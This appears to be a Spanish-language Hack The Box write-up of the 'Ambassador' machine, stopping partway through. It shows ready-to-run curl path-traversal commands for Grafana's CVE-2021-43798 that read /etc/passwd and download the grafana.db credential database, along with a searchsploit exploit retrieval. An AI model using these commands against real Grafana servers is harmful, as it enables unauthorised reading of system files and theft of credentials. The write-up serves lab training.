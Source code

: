 Puerto **22** su servicio por defecto es **SSH**, **80** este puerto en su configuración por defecto corre el servicio **HTTP**, MySQL corre en el puerto **3306** y el puerto 
3000 fue asignado por el **administrador**
## Enumeración
Podemos realizar **FUZZING** para ver si encontramos ninggun directorio, pero esto resultaría inutíl ya que no encontraremos nada, en su lugar podemos usar el puerto que encon
tramos y tratar de acceder a él.
Viendo la web nos encontramos con esto:



Viendo en la parte inferior nos da información acerca de la versión, usando **searchsploit** nos damos cuenta de q
ue cuenta con estas vulnerabilidades ***Directory Traversal*** and ***Arbitrary File Read***


Podemos copiar el script de Python en nuestra carpeta de trabajo e intentamos leer el `/etc/passwd`
```bash
❯ searchsploit -m multiple/webapps/50581.py
  Exploit: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/50581
     Path: /snap/searchsploit/62/opt/exploitdb/exploits/multiple/webapps/50581.py
    Codes: CVE-2021-43798
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/h4ckerlite/Desktop/h4ckerlite/HTB/Máquinas/Ambassador/nmap/50581.py
```
Lo ejecutamos...



Buscando en internet acerca de este **CVE** nos encontramos con este [blog](https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/), nos
 enseñan a explotarlo de forma manual.
 ```bash
❯ curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/passwd | grep sh$

root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
 ```

 Si seguimos leyendo podemos ver que nos podemos descargar la base de datos

 ```bash
 curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
 ```
 Ahora procedemos a leer la base de datos, para ello debes tener instalado **sqlite3** para verlo desde consola, ya que lo considero mas fácil.

 ```bash
  sudo apt install sqlite3
 ```
Sigueindo las instrucciones del blog leemos la base de datos.

